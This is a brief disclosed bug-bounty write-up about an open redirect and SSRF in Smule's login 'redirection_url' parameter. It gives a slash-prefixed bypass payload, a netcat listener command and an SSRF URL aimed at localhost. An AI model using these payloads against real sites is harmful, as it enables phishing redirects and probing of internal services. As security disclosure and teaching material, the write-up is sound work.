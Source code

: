 # [#writeups 771465](https://hackerone.com/reports/771465)
`redirection_url=` parameter at [https://www.smule.com/user/login?redirection_url=](https://www.smule.com/user/login?redirection_url=) was vulnerable to Open redirect & SSRF.

## Proof of Concept
### Open redirect bypass
Open redirect bypass payload used: `///google.com`
 * [https://www.smule.com/user/login?redirection_url=////google.com](https://www.smule.com/user/login?redirection_url=////google.com)
 
### SSRF
 * Start a listener on port 1337, nc -lvp 1337
 * Insert payload at vulnerable parameter [https://www.smule.com/user/login?redirection_url=////127.0.0.1:1337](https://www.smule.com/user/login?redirection_url=////127.0.0.1:1337)

#### Issue was reported to Smule via Support and they agreed to disclose it on HackerOne. 
